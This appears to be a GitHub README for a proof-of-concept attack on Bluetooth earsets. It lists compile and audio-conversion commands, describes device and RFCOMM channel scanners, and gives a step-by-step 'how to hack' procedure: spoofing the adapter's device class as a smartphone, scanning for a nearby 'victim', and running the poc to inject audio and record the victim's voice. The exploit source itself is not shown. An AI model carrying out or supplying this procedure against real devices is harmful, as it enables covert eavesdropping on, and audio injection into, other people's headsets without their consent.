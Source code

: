 # Set up
## 1. Compile `poc.c`
- Command
   ```bash
   gcc -o poc poc.c -lbluetooth 
   ```
   
## 2. Convert `raw` file to `wav` file
- Command
   ```bash
   sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav]
   ```   
## 3. Convert `wav` file to `raw` file
- Command
   ```bash
   sox --bits 16 --encoding signed-integer --endian little [in.wav] [out.raw]
   ```


# File info
- btScan.py
  - Locate the Bluetooth device nearby.
  - However, the device must have the search function turned on.
- rfcommScan.py
  - Search for open channels in the rfcomm protocol.
  - In my case, I have only 4 earset channels, so I only scan channel four.
- poc
  - Send a voice message to the Bluetooth earset 
  - and receive the other person's voice message.


# how to hack the bluetooth earset
1. Turn on the my bt-device
   ```bash
   sudo hciconfig hci0 up
   ```
2. In order to hack the earset, the class information of the device is changed. (class info: [link](http://bluetooth-pentest.narod.ru/software/bluetooth_class_of_device-service_generator.html))
   ```bash
   hciconfig -a
   hciconfig hci0 class 0x50020c # (class-SmartPhone, telephony, ObjectTransfer)
   ```
   
4. Locate the Bluetooth device nearby.
   ```bash
   hcitool scan
   ```
5. send voice to victim from hacker.
   ```bash
   ./poc <hci#> <messagefile> <recordfile> <bdaddr> [channel]
   ```
6. And then if you recieve a some data, you have to convert file from `raw` file to `wav`file
   ```bash
   sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav]
   ```
